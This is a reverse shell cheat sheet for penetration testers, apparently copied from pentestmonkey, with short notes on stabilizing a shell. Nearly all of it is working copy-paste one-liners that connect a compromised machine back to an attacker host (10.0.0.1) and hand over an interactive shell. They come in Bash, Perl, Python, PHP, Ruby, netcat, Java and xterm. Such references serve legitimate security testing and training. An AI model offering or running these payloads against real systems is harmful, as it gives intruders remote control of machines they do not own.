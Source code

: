 http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/JohnHammond/poor-mans-pentest

stablize shell:
```
https://github.com/JohnHammond/poor-mans-pentest/blob/master/stabilize_shell.sh
command "python -c 'import pty; pty.spawn(\"/bin/bash\")'"
ctrl Z
command "stty raw -echo"
command "fg"
command "export TERM=xterm"
```
# Reverse Shell Cheat Sheet

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
## Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an alternative PERL revere shell here.
## Python

This was tested under Linux / Python 2.7:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust php-reverse-shell.
## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]
## xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```
xhost +targetip
```
## Further Reading

Also check out Bernardo’s Reverse Shell One-Liners.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.

There’s a reverse shell written in gawk over here.  Gawk is not something that I’ve ever used myself.  However, it seems to get installed by default quite often, so is exactly the sort of language pentesters might want to use for reverse shells.

Tags: bash, cheatsheet, netcat, pentest, perl, php, python, reverseshell, ruby, xterm

Posted in Shells
